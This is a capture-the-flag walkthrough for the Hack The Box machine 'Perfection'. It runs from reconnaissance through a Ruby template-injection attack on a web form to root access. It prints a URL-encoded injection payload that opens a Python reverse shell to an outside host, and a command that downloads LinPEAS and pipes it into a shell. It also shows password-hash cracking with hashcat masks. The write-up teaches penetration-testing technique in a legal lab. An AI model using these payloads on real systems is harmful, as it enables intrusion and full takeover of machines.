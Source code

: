 # Perfection

A writeup for the machine [Perfection](https://app.hackthebox.com/machines/Perfection) on Hack The Box.

<Image src={require("./banner.png").default} width="700" />

## Footprinting

### Nmap scans

Firstly, we can start with a nmap scan.

We find two open ports with one web servers publicly accessible.

```bash
nmap -sS <HOST>
```

```
22 -> SSH
80 -> HTTP
```

<Image src={require("./nmap.png").default} />

### Web server

The web server is running a simple website with an home page and a weight calculator form.

<Image src={require("./homepage.png").default} />

<Image src={require("./calculator.png").default} />

We can try to fuzz the website to find hidden directories.

```bash
gobuster dir -u http://<HOST> -w /usr/share/wordlists/dirb/common.txt
```

No hidden directories are found.

If we open a 404 page, we can see that the server is running `Sinatra`, a Ruby web framework.

<Image src={require("./sinatra.png").default} />

## User flag

### Weight calculator

The only interesting thing we can find is the weight calculator form.

We can try to test it with Burp Repeater to see if it's vulnerable.

It is required to insert an overall weight of 100 otherwise a block message is shown.

If correct weights are inserted, with categories and grades as alphanumeric characters, the application shows a message with the data inserted.

<Image src={require("./burp-repeater.png").default} />

### SSTI

This last test is interesting because it seems that the application is vulnerable to Server-Side Template Injection (SSTI).

Special characters are not allowed but still the form seems vulnerable to SSTI.

By looking online, we can find that %0A is a newline character and can be used to bypass the filter.

After that, we have to urlencode the payload and insert it in the form.

<Image src={require("./burp-ssti.png").default} />

### Reverse shell

To get a reverse shell, we can use the following payload.

```
category1=A%0A
%3C%25=%20system(%22whoami%22)%20%25%3E
%3C%25=%20%60python3%20-c%20'import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.155%22,1337));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)'%60%20%25%3E
&grade1=11&weight1=20&category2=2&grade2=11&weight2=20&category3=3&grade3=11&weight3=20&category4=4&grade4=11&weight4=20&category5=5&grade5=11&weight5=20
```

<Image src={require("./cyberchef.png").default} />

<Image src={require("./rev-shell.png").default} />

## Root flag

### Users database

Inside the home directory of Susan there is the source code of the web application and a folder called migration.

In the latter, we can find a Sqlite database file.

<Image src={require("./database.png").default} />

The database contains only a table with some users and their hashed passwords.

```bash
strings pupilpath_credentials.db
```

<Image src={require("./password.png").default} />


### First cracking attempt

The hashing algorithm used for the password seems SHA-256.

However, cracking the password with common wordlists does not give any result.

```bash
hashcat -m 1430 -a 0 -oabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f /usr/share/wordlists/rockyou.txt
```

### Scan with LinPEAS

We can try to scan with LinPEAS to find interesting files and configurations.

```bash
# In the host
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
python3 -m http.server
```

```bash
# In the target
curl IP:PORT/linpeas.sh | sh
```

<Image src={require("./linpeas.png").default} />

There is a mail file for Susan accessible both by the user and the root.

```bash
cat /var/mail/susan
```

<Image src={require("./mail.png").default} />

### Cracking the password

Inside we find the correct password format.

```
{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

susan_nasus_ddddddddd
```

It is possible to use Hashcat with a specific mask to crack the password.

```sh
hashcat -a 3 abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f susan_nasus_?d?d?d?d?d?d?d?d?d -m 1400
```

<Image src={require("./hashcat.png").default} /> 

We can now login through SSH as Susan and retrieve the root flag by switching to the root user.

```bash
ssh susan@MACHINE_IP
# ...
sudo su
```
